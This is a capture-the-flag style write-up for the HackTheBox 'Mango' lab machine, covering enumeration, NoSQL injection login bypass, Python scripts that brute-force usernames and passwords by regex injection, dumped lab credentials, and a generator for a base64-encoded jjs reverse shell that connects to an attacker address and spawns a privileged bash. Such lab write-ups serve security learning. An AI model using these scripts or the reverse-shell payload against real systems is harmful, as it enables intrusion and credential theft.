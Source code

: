 ```yaml
---
title: Mango
date: 2022-08-08
summary: "Writeup for the Mango lab machine on HackTheBox"
draft: false
tags: [Hacking]
categories: [HackTheBox]
cover:
    image: "images/cover.png" # image path/url
    alt: Mango # alt text
    caption: "" # display caption under cover
    relative: true # when using page bundles set this to true
---
```


# Introduction

This box makes use of sql injection, but not in the way that people normally expect.
The box hosts a few different webpages, with one of them being vulnerable to NoSQL
injection. The NoSQL injection can be used to harvest user credentials, one of which
can be used to ssh into the machine as the mango user. From there, we can login as
the admin user with `su`, and use the `jjs` SUID binary on the machine to spawn a
reverse shell as root.

## Enumeration

### Nmap

```nohighlight
# Nmap 7.92 scan initiated Fri Aug  5 15:56:07 2022 as: nmap -sS -sCV -oA scans/nmap/init -Pn 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  5 15:56:24 2022 -- 1 IP address (1 host up) scanned in 17.07 seconds
```

### Websites

Nmap shows info about the ssl cert for the website, so we add that information to
/etc/hosts. Using gobuster to scan for additional subdomains does not lead to any
more results.

![/etc/hosts](./images/website/etc_host.png)
![gobuster vhosts](./images/website/gobuster_vhosts.png)

Navigating to http://mango.htb gives a 403 forbidden message, so this is a dead end.

![mango.htb](./images/website/http/mango_htb/403_forbidden.png)

https://mango.htb does, however, load properly. It brings up what looks like a simple
websearch, but id does not do anything when a search is made. Checking
https://staging-order.mango.htb brings up the same webpage.

![https://mango.htb](./images/website/https/mango_htb/homepage.png)

Running gobuster on the https website shows an endpoint for
http://mango.htb/analytics.php. 

![Gobuster](./images/website/https/mango_htb/gobuster.png)

The analytics page itself, does not load any data, since the required license has
expired. So this is another dead end.

![analytics](./images/website/https/mango_htb/analytics_page.png)

http://staging-order.mango.htb brings up a login page that does not seem to change on
failed login. Probably it is just not showing a proper message to let us know if the
login was successful.

![staging-order.mango.htb](./images/website/http/mango_htb/staging-order/homepage.png)

## Shell as Mango

### NoSQL Injection

Running sqlmap on the login page does not show any fields that are vulnerable to
SQL injection. However, NoSQL injection does work, and allows us to bypass
authentication.

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass) provides all the common NoSQL injection tricks. Intercepting the login request with Burpsuite and putting `[$ne]` after each POST parameter bypasses login. 

![nosql injection](./images/website/http/mango_htb/staging-order/nosql_injection.png)

Successful login redirects to home.php, which is a placeholder page for a future
project

![home.php](./images/website/http/mango_htb/staging-order/home.png)

While the actual contents of home.php are not useful, we can still use the NoSQL
injection to gather valid user credentials.
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#blind-nosql)
can once again be reference to create some python scripts that will enumerate valid
users and their passwords.

```python
#!/usr/bin/env python3
# search_users.py
# verifies a user exists

import requests
import string

u="http://staging-order.mango.htb"
headers={'content-type': 'application/x-www-form-urlencoded'}

username=sys.argv[1]

payload='username[$regex]=^{}&password[$gt]='.format(username)
r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
if r.status_code == 302:
    print("valid user: {}".format(username))
```
```python
#!/usr/bin/env python3
# dump_creds.py
# Supply a username and it will dump the password of that user the script runs forever,
# but once the ending of the password ends in "$" over and over again, its done.

import sys
import urllib.parse
import requests
import string

username=sys.argv[1]
password=""
u="http://staging-order.mango.htb"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            c = urllib.parse.quote_plus(c)
            payload='username[$eq]={}&password[$regex]=^{}'.format(username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                password += urllib.parse.unquote(c)
                print(password)
```

Using the search_users.py script, we find two users, admin and mango. Then using the
dump_creds.py script we can figure out both of their passwords.

```nohighlight
username: mango
password: h3mXK8RhU~f{]f5H
```
```nohighlight
username: admin
password: t9KcS3>!0B#2
```

Attempting to use admin's credentials to ssh into the machine fails, but mango's
credentials login successfully.

![Shell as mango](./images/shell_as_mango.png)

## Shell as root

Running linpeas shows that openjdk11 is installed and the included binary jjs has the
suid bit set. The admin user is also able to run it.

![linpeas suid on jjs](./images/java/linpeas_suid.png)
<!-- ![jjs suid](./images/java/jjs_can_be_run_by_admins.png) -->

We could not ssh into the machine as admin, but attempting to use `su` and providing
the previously obtained password for admin logs in successfully

![shell as admin](./images/shell_as_admin.png)
![user.txt](./images/user_get.png)

The reason we could not ssh as admin is due to the rules set by sshd_config

![sshd_config](./images/ssh/allowed_users.png)

We can reference [gtfobins](https://gtfobins.github.io/gtfobins/jjs/#reverse-shell)
to find a way to use `jjs` to get a reverse shell. This works, but the shell we get
back is still the admin user. In order for the shell to be a root shell, `-p` needs
to be passed as an argument when executing `/bin/bash`.

![bash -p flag](./images/java/bash_arguments.png)


The following script can be used to generate a copy-pasteable payload.

```python
#!/usr/bin/env python3
# gen_payload.py
# generates a payload for jjs that can be copy pasted into the target machine. will
# create a reverse shell at LHOST:LPORT

import base64

LHOST = "10.10.14.11"
LPORT = 4444

payload = (
    'var ProcessBuilder = Java.type("java.lang.ProcessBuilder");'
    'var p=new ProcessBuilder("/bin/bash", "-i", "-p").redirectErrorStream(true).start();'
    'var Socket = Java.type("java.net.Socket");'
    f'var s=new Socket("{LHOST}",{LPORT});'
    'var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();'
    'var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
)
payload = base64.b64encode(payload.encode())
payload = payload.decode("utf-8")

print(f"echo \"eval(new java.lang.String(java.util.Base64.decoder.decode('{payload}')));\" | jjs")

```

Copying and pasting the output of the previous script into the shell we have as admin
we create a reverse shell on port 4444. 

![Shell as root](./images/shell_as_root.png)
![root.txt](./images/root_get.png)
